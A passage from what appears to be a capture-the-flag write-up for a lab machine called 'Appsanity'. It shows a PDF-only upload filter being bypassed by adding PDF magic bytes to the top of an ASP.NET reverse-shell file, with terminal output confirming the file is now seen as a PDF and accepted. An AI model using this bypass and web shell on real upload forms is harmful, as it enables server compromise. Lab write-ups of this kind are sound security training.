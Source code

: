 ### File upload potential in portal subdomain
Notably interesting, the upload exam report section
Only pdf is allowed. Is this magic byte verification?

![](Images/pdfonly.png)

We can add magic byte to trick the upload:
```
┌──(kali㉿kali)-[~/Documents/Appsanity]
└─$ head shell.aspx
%PDF-1.5
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
┌──(kali㉿kali)-[~/Documents/Appsanity]
└─$ file shell.aspx 
shell.aspx: PDF document, version 1.5
```
By doing this, our payload is accepted.

![](Images/upload.png)
